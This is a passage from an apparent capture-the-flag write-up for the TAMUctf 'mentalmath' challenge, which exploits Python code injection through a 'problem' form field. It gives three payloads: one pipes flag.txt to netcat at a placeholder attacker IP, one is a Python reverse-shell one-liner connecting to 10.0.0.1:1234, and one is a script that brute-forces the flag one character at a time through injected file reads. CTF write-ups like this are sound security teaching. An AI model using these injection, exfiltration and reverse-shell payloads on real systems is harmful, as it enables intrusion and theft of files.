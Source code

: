 - You could easily listen on a port with netcat and pipe the flag :

```json
{
    "problem" : "__import__('os').popen('cat flag.txt | nc <attacker-ip> <attacker-port>')",
    "answer" : "1",
}

```

- A more complicated solution would be catching a reverse shell using something like :

```json
{
    "problem" : "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);",
    "answer" : "1",
}

```

- Or you could like my mosachistic solution wich bruteforces each char of the flag and outputs correct only if the character was found. Don't blame me, I wasn't aware that you could access the network from within the application :(

```python
#!/bin/python
from time import sleep

import requests
import string

headers = {
    'Connection': 'keep-alive',
    'Accept': '*/*',
    'Origin': 'http://mentalmath.tamuctf.com',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Referer': 'http://mentalmath.tamuctf.com/play/',
    'Accept-Language': 'it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7,fr;q=0.6',
}

dic = string.ascii_lowercase + string.ascii_uppercase + string.digits + "!$()-.@[]^_{}"
currentletter = 0
currentdic = 0
result = ""

while 1:
    print("[*] Trying {}{}".format(result, dic[currentdic]))
    data = {
      'problem' : "open('flag.txt','r').read()[{}] == '{}'#".format(currentletter, dic[currentdic]),
      'answer': '1',
    }
    response = requests.post('http://mentalmath.tamuctf.com/ajax/new_problem', headers=headers, data=data, verify=False)
    resp = str(response.content)
    if '"correct": true' in resp:
        print("[*] Found letter : {}".format(dic[currentdic]))
        result = result + dic[currentdic]
        if dic[currentdic] == '}':
            print("[*] Found Flag : {}".format(result))
            break
        currentdic = 0
```